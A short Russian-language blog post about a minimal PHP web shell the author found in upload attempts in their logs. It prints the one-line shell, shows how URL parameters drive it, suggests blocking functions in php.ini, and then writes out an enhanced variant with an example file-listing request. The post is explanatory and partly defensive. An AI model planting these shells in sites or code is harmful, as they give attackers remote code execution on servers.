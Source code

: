 ```yaml
---
title: "Самый маленький PHP shell"
date: "2021-07-28T20:34:56.000Z"
description: "Или атаки хакеров на PHP в 2021 году

Давеча увидел в логах попытку залить такую вот штуку, решил поделиться. Это
самый маленьки"
---
```


<p><strong>Или атаки хакеров на PHP в 2021 году</strong></p><p>Давеча увидел в логах попытку залить такую вот штуку, решил поделиться. Это самый маленький шелл:</p><pre><code class="language-php">&lt;?= @extract($_REQUEST); @die($callf($shargs));</code></pre><p>Собственно тут все просто. Для тех, кто не сразу увидел проблему, поясню: теперь подставляя в URL параметры ?callf=функция&amp;shargs=аргумент можно выполнить простые действия. Например:</p><pre><code>http://target.lol/foo/some?callf=date&amp;shargs=Y-m-d

Выведет результат работы date('Y-m-d')</code></pre><p>Это самое безобидно. А что можно натворить обидного нафантазируете сами. У меня этот шелл всеравно не сработал из-за настроек безопасности, самое простое это в php.ini перечислить функции для запрета:</p><pre><code class="language-bash">disable_functions = extract, ...</code></pre><p>И так далее. Тогда все функции, указанные в этой настройке будут считаться несуществующими.</p><p>Кстати, если бы я писал такой шел, то для 2021 года я бы его модифицировал так:</p><pre><code class="language-php">&lt;?= @extract($_REQUEST); @die(var_dump($callf(...$shargs)));</code></pre><p>Это позволяет передавать более одного аргумента, а так же позволяет возвращать массив данных (в отличие от предыдущего варианта):</p><pre><code>?callf=glob&amp;callf[]=*</code></pre><p>Выведет дамп массива файлов в текущем каталоге.</p>


